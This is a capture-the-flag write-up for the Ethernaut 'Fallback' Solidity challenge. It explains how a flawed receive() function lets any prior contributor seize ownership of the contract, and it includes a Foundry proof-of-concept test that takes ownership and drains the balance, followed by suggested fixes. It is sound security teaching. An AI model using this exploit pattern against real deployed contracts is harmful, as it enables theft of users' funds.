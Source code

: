 # Level 1 - Fallback

## Objectives

- claim ownership of the contract
- reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

## Contract Overview

The fallback contract allows users to contribute ether to the contract. The contract is supposed to work as follows:

- `contribute()` function is restricted to payments smaller than `0.001 ether`

```solidity
    function contribute() public payable {
    require(msg.value < 0.001 ether); // <-- this line over here
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

- if a user has contributed more than the owner, he then becomes the owner
  - claiming ownership this way would be very tedious because contributions of the initial owner are set to 1000 ether

```solidity
    function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) { // <-- this line over here
      owner = msg.sender; // <-- this line over here
    }
  }
```

- the owner can withdraw all of the funds

```solidity
  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }
```

## Finding the weak spots

The fallback contract contains a `receive()` function that at first glance contains flawed logic. That is why if we want to claim ownership of the contract we have to trigger `receive()` function. In order to do this we have to fullfill `require` condition.

```solidity
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

> The receive function is executed on a call to the contract with empty calldata. This is the function that is executed on plain Ether transfers (e.g. via .send() or .transfer()). If no such function exists, but a payable fallback function exists, the fallback function will be called on a plain Ether transfer. If neither a receive Ether nor a payable fallback function is present, the contract cannot receive Ether through regular transactions and throws an exception.
>
> _Reference: https://docs.soliditylang.org/en/v0.8.12/contracts.html#receive-ether-function_

We can send Ether to other contracts by:

- transfer
- send
- call

  | Function   | Amount of Gas Forwarded        | Exception Propagation              |
  | :--------- | :----------------------------- | :--------------------------------- |
  | `send`     | 2300 (not adjustable)          | `false` on failure (returns bool)  |
  | `transfer` | 2300 (not adjustable)          | `throws` on failure (throws error) |
  | `call`     | all remaining gas (adjustable) | `false` on failure (returns bool)  |

  _Reference: https://solidity-by-example.org/sending-ether/_

We will need to use the `call` method so that the contract has enough gas left to change the `owner` state after performing the transfer. Both `send` and `transfer` have a fixed gas stipend which would be insufficient for this purpose.

## Potential attack scenario (hypothesis)

If attacker sends ether directly to the contract via external call, he can become the owner of the contract without the need to contribute more than the owner.

## Plan of the attack

1. Contribute with a small amount of ether to be added to the `contributions` mapping.
2. Trigger the fallback function (`receive()`) to gain ownership of the contract.
3. Confirm the ownership of the contract has changed.
4. Withdraw all the funds.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/01-Fallback.t.sol))

```solidity
        //Contribute with a small amount of ether to be added to the contributions mapping
        fallbackContract.contribute{value: 1}();
        emit log_named_uint(
            "Attackers's contribution: ",
            fallbackContract.getContribution()
        );

        // Trigger the fallback function (receive()) to gain ownership of the contract.
        (bool success, ) = address(fallbackContract).call{value: 1}("");
        require(success, "call failed");

        // Confirm the ownership of the contract has changed
        emit log_named_address(
            "New owner of the contract: ",
            fallbackContract.owner()
        );

        emit log_named_uint(
            "Balance of the contract before withdrawal: ",
            address(fallbackContract).balance
        );

        // Withdraw all the funds
        fallbackContract.withdraw();

        emit log_named_uint(
            "Balance of the contract after withdrawal: ",
            address(fallbackContract).balance
        );

        // Test assertion
        assertEq(fallbackContract.owner(), attacker);

        assertEq(address(fallbackContract).balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallback.png)

## Recommendations

1. The first way to mitigate the issue would be to move ownership transfer out of the receive function into separate `transferOwnership()` function which would perform all the necessary checks.
2. Second possible solution is to add additional logic to the receive function to check if the user has enough contributions to become the owner. It could be done like this:

```solidity
receive() external payable {
	require(msg.value > 0 && contributions[msg.sender] > 0);
	contributions[msg.sender] += msg.value;

	if (contributions[msg.sender] > contributions[owner]) {
		owner = msg.sender;
	}
}
```

## Additional information

You can also read my two other solutions (using console and Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/1.-fallback-fallback-function

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
